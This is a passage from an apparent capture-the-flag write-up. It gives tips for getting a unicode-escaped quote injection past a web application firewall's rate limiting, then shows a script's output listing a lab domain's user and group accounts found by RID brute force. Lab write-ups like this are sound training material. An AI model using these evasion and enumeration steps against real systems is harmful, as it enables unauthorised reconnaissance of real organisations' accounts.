     print("\r" + " " * 50)
    

There were two tricky parts:

  * The WAF has some kind of dumb rate limiting. I think it’s looking at requests over some time period and returning 403 if there are too many. I just have a loop that sleeps for 30 seconds and tries again if there’s a 403. The current parameters are to sleep 30 seconds on a 403, and 1 second between requests. It’s possible those could be optimized.
  * Getting Python to actually send `\u0027` was tricker than I expected. I originally was doing `json={"name":""}` in the POST, but Python is too nice about formatting that. Changing it to `data` and setting it the way I have above took some trial and error through the proxy.
  * Sending through Burp was really nice, and it didn’t really slow anything down since I was already going slow for the WAF.

The script finds new accounts I didn’t previously know about:

    
    
    root@kali# ./get_domain_users.py 
    [*] Finding domain
    [+] Found domain: MEGACORP
    [*] Finding Domain SID
    [+] Found SID for MEGACORP domain: 0x0105000000000005150000001c00d1bcd181f1492bdfc236
    [+] Found account [00500]  MEGACORP\Administrator                              
    [+] Found account [00501]  MEGACORP\Guest                              
    [+] Found account [00502]  MEGACORP\krbtgt                              
    [+] Found account [00503]  MEGACORP\DefaultAccount                              
    [+] Found account [00512]  MEGACORP\Domain Admins                              
    [+] Found account [00513]  MEGACORP\Domain Users                              
    [+] Found account [00514]  MEGACORP\Domain Guests                              
    [+] Found account [00515]  MEGACORP\Domain Computers                              
    [+] Found account [00516]  MEGACORP\Domain Controllers                              
    [+] Found account [00517]  MEGACORP\Cert Publishers                              
    [+] Found account [00518]  MEGACORP\Schema Admins                              
    [+] Found account [00519]  MEGACORP\Enterprise Admins                              
    [+] Found account [00520]  MEGACORP\Group Policy Creator Owners                              
    [+] Found account [00521]  MEGACORP\Read-only Domain Controllers                              
    [+] Found account [00522]  MEGACORP\Cloneable Domain Controllers                              
    [+] Found account [00525]  MEGACORP\Protected Users                              
    [+] Found account [00526]  MEGACORP\Key Admins                              
    [+] Found account [00527]  MEGACORP\Enterprise Key Admins                              
    [+] Found account [00553]  MEGACORP\RAS and IAS Servers                              
    [+] Found account [00571]  MEGACORP\Allowed RODC Password Replication Group                              
    [+] Found account [00572]  MEGACORP\Denied RODC Password Replication Group                              
    [+] Found account [01000]  MEGACORP\MULTIMASTER$                              
    [+] Found account [01101]  MEGACORP\DnsAdmins                              
    [+] Found account [01102]  MEGACORP\DnsUpdateProxy                              
    [+] Found account [01103]  MEGACORP\svc-nas                              
    [+] Found account [01105]  MEGACORP\Privileged IT Accounts                              
    [+] Found account [01110]  MEGACORP\tushikikatomo                              
    [+] Found account [01111]  MEGACORP\andrew                              
    [+] Found account [01112]  MEGACORP\lana                               
    [+] Found account [01601]  MEGACORP\alice                              
    [+] Found account [01602]  MEGACORP\test                               
    [+] Found account [02101]  MEGACORP\dai                                
    [+] Found account [02102]  MEGACORP\svc-sql                              
    [+] Found account [03101]  MEGACORP\SQLServer2005SQLBrowserUser$MULTIMASTER                              
    [+] Found account [03102]  MEGACORP\sbauer                              
    [+] Found account [03103]  MEGACORP\okent                              
    [+] Found account [03104]  MEGACORP\ckane                              
    [+] Found account [03105]  MEGACORP\kpage                              
    [+] Found account [03106]  MEGACORP\james                              
    [+] Found account [03107]  MEGACORP\cyork                              
    [+] Found account [03108]  MEGACORP\rmartin                              
    [+] Found account [03109]  MEGACORP\zac                                
    [+] Found account [03110]  MEGACORP\jorden                              